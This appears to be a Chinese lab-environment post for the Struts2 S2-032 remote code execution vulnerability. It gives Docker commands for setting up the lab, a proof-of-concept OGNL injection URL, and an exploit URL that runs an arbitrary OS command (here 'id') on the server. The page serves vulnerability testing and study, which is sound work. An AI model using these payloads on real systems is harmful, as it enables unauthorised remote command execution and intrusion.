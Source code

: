 ```yaml
---
layout: post
title: "Struts2 远程代码执行漏洞(S2-032)"
date: 2016-06-16 16:18:17 +0800
image: '/assets/img/'
description: 'Struts2 远程代码执行漏洞(S2-032)环境'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: 'Struts2 远程代码执行漏洞(S2-032)环境'
introduction: 'Struts2 远程代码执行漏洞(S2-032)环境'
---
```

<style type="text/css">
.highlight pre{
  white-space: pre-wrap;
}    
</style>

## Struts2 S2-032 漏洞环境

### 说明

 官方 demo 中提供的 war 包由于添加了 jsp 拦截器，配置会有问题，修正了一下。

### 漏洞信息

 * [S2-032 官方公告](http://struts.apache.org/docs/s2-032.html)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_struts2_s2-032
 ```

2. 启动环境
 ```bash
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-032
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### PoC

```
http://127.0.0.1/memoindex.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23context[%23parameters.obj[0]].getWriter().print(%23parameters.content[0]%2b602%2b53718),1?%23xx:%23request.toString&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=10086
```
若页面显示：`1008660253718` 则代表可代码执行。

####  Exp

执行命令(所执行的命令在cmd参数处指定)：

```bash
http://127.0.0.1/memoindex.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```

### 改动日志

20160731

 * 修正资源为本地路径
